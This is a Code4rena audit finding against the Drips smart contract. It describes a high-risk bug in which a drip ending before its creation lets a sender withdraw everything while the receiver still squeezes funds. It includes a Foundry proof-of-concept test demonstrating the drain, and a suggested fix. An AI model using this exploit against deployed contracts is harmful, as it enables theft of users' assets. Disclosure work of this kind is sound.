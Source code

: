 ## Tags

- bug
- 3 (High Risk)
- primary issue
- selected for report
- sponsor confirmed
- H-01

# [Drips that end after the current cycle but before its creation can allow users to profit from squeezing](https://github.com/code-423n4/2023-01-drips-findings/issues/315) 

# Lines of code

https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L425-L430


# Vulnerability details

## Impact
By creating a drip that ends after the current cycle but before its creation time and immediately removing it, the sender doesn't have to put in any assets but the receiver can still squeeze this drip.

By setting a receiver that the sender controls, the sender can drain arbitrary asset from the contract.

## Proof of Concept
Let the cycle length be 10 seconds. By i-th second I mean the i-th second of the cycle.
At the 5th second, sender creates a drip that starts at 0th second and lasts for 2 seconds.
At the 6th second, sender removes this drip.

https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L569
Since the drip ends before it was created, the dripped amount is 0, so the sender can retrieve their full balance.

https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L425-L430
https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L490-L496
Now the receiver squeezes from this drip. SqueezeStartCap = _currCycleStart() = 0th second, squeezeEndCap = 6th second, so the receiver can still squeeze out the full amount even though the sender has withdrawn all of his balance.

Please add the following test to DripsHub.t.sol. It verifies that the sender has retrieved all of his assets but the receiver can still squeeze.
```
    function customSetDrips(
        uint256 forUser,
        uint128 balanceFrom,
        uint128 balanceTo,
        DripsReceiver[] memory newReceivers
    ) internal {
        int128 balanceDelta = int128(balanceTo) - int128(balanceFrom);
        DripsReceiver[] memory currReceivers = loadDrips(forUser);

        vm.prank(driver);
        int128 realBalanceDelta =
            dripsHub.setDrips(forUser, erc20, currReceivers, balanceDelta, newReceivers, 0, 0);
        
        storeDrips(forUser, newReceivers);

    }

    function testExploitSqueeze() public {
        skipToCycleEnd();
        // Start dripping
        DripsReceiver[] memory receivers = new DripsReceiver[](1);
        receivers[0] = DripsReceiver(
            receiver,
            DripsConfigImpl.create(0, uint160(1 * dripsHub.AMT_PER_SEC_MULTIPLIER()), uint32(block.timestamp), 2)
        );

        DripsHistory[] memory history = new DripsHistory[](2);

        uint256 balanceBefore = balance();
        skip(5);
        customSetDrips(user, 0, 2, receivers);
        (,, uint32 lastUpdate,, uint32 maxEnd) = dripsHub.dripsState(user, erc20);
        history[0] = DripsHistory(0, receivers, lastUpdate, maxEnd);

        skip(1);
        receivers = dripsReceivers();
        customSetDrips(user, 2, 0, receivers);
        (,, lastUpdate,, maxEnd) = dripsHub.dripsState(user, erc20);
        history[1] = DripsHistory(0, receivers, lastUpdate, maxEnd);

        assertBalance(balanceBefore);
        
        // Squeeze
        vm.prank(driver);
        uint128 amt = dripsHub.squeezeDrips(receiver, erc20, user, 0, history);
        assertEq(amt, 2, "Invalid squeezed amt");
    }
```

## Tools Used
VSCode, Foundry

## Recommended Mitigation Steps
https://github.com/code-423n4/2023-01-drips/blob/main/src/Drips.sol#L426
One potential solution is to add an additional check after this line. Something along the lines of:
`if (squeezeStartCap < drips.updateTime) squeezeStartCap = drips.updateTime;`